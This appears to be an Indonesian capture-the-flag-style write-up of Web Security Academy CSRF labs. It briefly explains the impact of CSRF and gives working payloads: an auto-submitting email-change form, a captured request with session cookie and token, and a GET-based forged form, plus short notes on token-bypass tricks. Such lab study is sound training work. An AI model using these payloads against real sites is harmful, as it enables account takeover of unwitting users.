 	
## Apa dampak serangan CSRF?

Dalam serangan CSRF yang berhasil, penyerang menyebabkan pengguna korban melakukan suatu tindakan secara tidak sengaja. Misalnya saja untuk mengubah alamat email di akun mereka, mengubah kata sandi, atau melakukan transfer dana. Bergantung pada sifat tindakannya, penyerang mungkin bisa mendapatkan kendali penuh atas akun pengguna. Jika pengguna yang disusupi memiliki peran istimewa dalam aplikasi, maka penyerang mungkin dapat mengambil kendali penuh atas semua data dan fungsionalitas aplikasi.


**solve lab 1 :**

```html
<html>
    <body>
        <form id="autoSubmitForm" method="POST" action="https://0ac60036041c9017801a5856008500fe.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="juh@normal-user.net"/>
    </form>
    
    <script>
        document.getElementById("autoSubmitForm").submit();
    </script>
    </body>
</html>
```



**Solve lab2:**

```json
GET /my-account/change-email?email=admin%40normal-user.net&csrf=CQQbYkMfwphjikTc2tzP8cqIoH5TnQ8Z HTTP/1.1
Host: 0aad0078047668a58591d1cf005c00b9.web-security-academy.net
Cookie: session=kFEbom06VJPPjxaKhWPGNwoL3SroWH6x
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aad0078047668a58591d1cf005c00b9.web-security-academy.net/my-account?id=wiener
Origin: https://0aad0078047668a58591d1cf005c00b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
```

```html
<html>
	<body>
		<form method="GET" action="https://0aad0078047668a58591d1cf005c00b9.web-security-academy.net/my-account/change-email?email=admin%40normal-user.net&csrf=CQQbYkMfwphjikTc2tzP8cqIoH5TnQ8Z">
			<input type="hidden" name="email" value="admin%40normal-user.net"/>
			<input type="hidden" name="csrf" value="CQQbYkMfwphjikTc2tzP8cqIoH5TnQ8Z"/>
			<input type="submit" value="Submit">
		</form>
	</body>
<html>
```


**Solve lab3:**
hanya menghapus token csrf nya saja, tinggal gmail lalu kirim dan boom 


**Solve lab4:**

di sini saya harus menggunakan 2 browser 1. untuk kirim email change yang ke 2. untuk generate token csrf. 

